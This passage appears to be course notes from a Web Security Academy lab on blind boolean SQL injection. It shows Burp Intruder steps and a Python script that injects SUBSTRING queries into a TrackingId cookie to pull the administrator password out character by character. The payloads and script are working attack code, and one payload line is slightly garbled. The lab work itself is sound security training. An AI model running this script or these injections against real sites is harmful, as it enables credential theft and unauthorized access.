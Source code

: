 And we do get a Welcome back message using this method but the idea is instead of checking each letter, we can narrow it down using the greater than symbol.

The instructor then changes the > back to = and sends the request to Intruder.

So we have in intruder the request with the cookie modified to

Cookie: TrackingId=B4P068IYi5kg4oJQtest AND (SELECT SUBSTRING(password1,1) FROM users WHERE username = 'administrator' )='a;

We put positional markers around the number 1 and the letter a.

We will change the Attack type to Cluster Bomb.

For the Payload tab/settings we make sure the payload set is 1, payload type is Numbers

we do From 1 to 30

For Payload set 2, we do Simple List

And we add in a-z 0-9 in our payload list.

We start the attack.

While this is running we go to Settings, go to Grep-Match

and we add in our phrase Welcome

we add it in.

We come back to results, and we see that the column Welcome is added to the Results

and we see that the first letter of the password is e.

In the mean time we check back on our sqlmap and we see that it failed, and the instructor notes that it may be incredibly powerful, but it wont always give us the results that we want. Which is why we result back to manual testing.

After waiting for a long time since we are on the Community Edition we get an entire password.

We simply copy the password from the results of the attack and we log in and we complete the lab once we log in with the administrator credentials.


A quicker way to do this is by scripting:

```python
import requests
import string

burp0_url = "https://0aae00dd03ee409a8f9135cf00a70092.web-security-academy.net:443/filter?category=Pets"
burp0_cookies = {"TrackingId": "aw52CZkptjzVQuMV", "session": "d2h6yEB6Mx16X51gnZHVeROH8cznKJMM"}
burp0_headers = {"Sec-Ch-Ua": "\"Not(A:Brand\";v=\"24\"", ...}

char_set = string.ascii_lowercase + string.digits
password = ''

for position in range(1, 21):
    for char in char_set:
        burp0_cookies["TrackingId"] = f"aw52CZkptjzVQuMV' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
        print(f"Testing {position}:{char}")
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
        
        if "Welcome" in response.text:
            print(f"Found {position}:{char}")
            password += char
            break
print(f"Pass: {password}")

```
